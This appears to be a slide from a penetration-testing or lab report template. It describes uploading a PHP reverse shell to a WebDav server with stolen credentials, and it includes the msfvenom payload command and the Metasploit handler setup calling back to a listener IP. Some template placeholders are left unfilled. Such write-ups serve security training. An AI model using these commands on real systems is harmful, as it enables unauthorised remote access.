

# Exploitation: Upload Reverse Shell payload thru WebDav
01

02

03

[INSERT: screenshot or command output illustrating the exploit.]

msfvenom –p php/meterpreter/reverse_tcp lhost=192.168.1.90 lport=4444 >>shell.php

msfconsole
Use exploit/multi/handler
set payload php/meterpreter/reverse_tcp
LHOST=192.168.1.90

Tools & Processes

- Used Ryan’s WebDav credentials to upload a reverse shell payload via msfvenom and msfconsole to access reverse shell

Achievements
What did the exploit achieve? For example: Did it grant you a user shell, root access, etc.?

-upload reverse shell .php